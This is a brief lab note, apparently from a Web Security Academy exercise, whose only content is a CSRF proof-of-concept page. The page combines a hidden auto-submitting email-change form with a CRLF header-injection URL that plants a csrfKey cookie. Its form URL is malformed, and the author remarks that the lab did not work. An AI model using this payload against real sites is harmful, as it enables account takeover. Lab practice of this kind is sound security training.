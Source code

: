 No andaba el lab
![[Pasted image 20250129200731.png]]


`<html>`
    `<body>`
        `<h1>Hello World!</h1>`
        `<form action="https:///0aa1007c0323e68e80cbf98100f0007a.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">`
            `<input type="hidden" name="email" value="test5@test.ca">`
            `<input type="hidden" name="csrf" value="GcZCQZ5cefIwvMAsR4faupH2kAlXHww9">`
        `</form>`

        `<img src="https://0aa1007c0323e68e80cbf98100f0007a.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=bYuPKbmyIDmHsxiQc2GJOSASBg08GyzX%3b%20SameSite=None" onerror="document.forms[0].submit()">`
    `</body>`
`</html>`